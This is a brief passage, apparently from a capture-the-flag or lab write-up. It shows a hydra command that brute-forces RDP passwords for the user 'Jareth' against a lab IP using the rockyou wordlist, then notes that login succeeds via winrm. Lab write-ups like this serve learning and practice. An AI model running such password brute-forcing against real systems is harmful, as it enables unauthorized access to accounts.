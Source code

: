 Bruteforcing Jareth:
```
hydra -l Jareth -P /usr/share/wordlists/rockyou.txt rdp://10.10.144.13
```

![](../attachment/c221d77d1cf5fe4dd5c175d340cd6a94.png)

We can login through winrm.
